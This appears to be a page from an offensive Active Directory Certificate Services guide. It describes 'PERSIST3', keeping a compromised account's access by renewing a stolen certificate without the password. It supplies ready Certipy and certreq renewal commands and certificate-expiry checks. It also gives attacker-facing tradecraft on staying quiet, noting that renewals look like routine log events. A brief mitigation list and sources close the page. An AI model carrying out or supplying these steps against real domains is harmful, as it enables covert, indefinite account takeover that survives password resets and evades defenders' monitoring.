

# PERSIST3 — Account Persistence via Certificate Renewal

## Quick Reference

| Field | Value |
|-------|-------|
| **Category** | Account Persistence (renewal) |
| **Difficulty** | Low |
| **Pre-requisites** | An existing valid certificate + private key for the account; the template permits renewal |
| **Tools** | Certipy (`req -renew`), certreq |
| **OPSEC Noise** | Low — looks like normal certificate lifecycle |
| **One-liner** | Renew a certificate **before it expires** using only the existing cert/key — no account password needed — extending your access for another full validity period, indefinitely. |

***

## What Is PERSIST3?

Templates that allow **renewal** let a holder present their current certificate and receive a fresh one with a new validity window, authenticated *by the existing key* rather than by the user's password. An attacker who obtained a cert (via an ESC, THEFT, or PERSIST1) can therefore roll it forward forever, so long as they renew before each expiry. Password resets never break the chain because renewal never uses the password.



***

## Step 1 — Renew Before Expiry

```bash
# Certipy — renew using the current pfx (no password required)
certipy-ad req -renew \
  -pfx current.pfx \
  -dc-ip $TARGET -ca 'DOMAIN-CA'
#   -> renewed.pfx with a fresh validity window
```

```powershell
# Windows — certreq renewal of an existing cert by thumbprint
certreq -enroll -user -q -PolicyServer * -cert <THUMBPRINT> Renew
```

***

## Step 2 — Track & Automate

```bash
# Check remaining validity of a stashed cert
certipy-ad cert -pfx current.pfx -nokey -out /dev/stdout | grep -i 'Not After'
openssl pkcs12 -in current.pfx -nodes -nokeys | openssl x509 -noout -enddate
```

- Set a reminder a week before each expiry and re-run the renewal.
- Keep the private key material offline between renewals to reduce host footprint.

***

## OPSEC Considerations

| Action | Log | Noise |
| :-- | :-- | :-- |
| Renewal request | Event 4886/4887 on CA (looks routine) | 🟢 Low |
| PKINIT auth with renewed cert | Event 4768 on DC | 🟢 Low |

> [!note] Blends into normal lifecycle
> Renewals are indistinguishable from legitimate certificate maintenance, which is what makes this quiet persistence.

***

## Mitigation

- On compromise, **revoke** the certificate and its renewals, and disable renewal on sensitive templates.
- Reduce validity/overlap windows; require re-approval on renewal for high-value templates.
- Correlate renewals against expected owners and enrolment agents.

***

## See Also

- _ADCS Attack Methodology Guide · PERSIST1 — Active User Credential Theft via Certificates · PERSIST2 — Machine Account Persistence via Certificates
- Sources: SpecterOps *Certified Pre-Owned*; [Certipy Wiki](https://github.com/ly4k/Certipy/wiki)
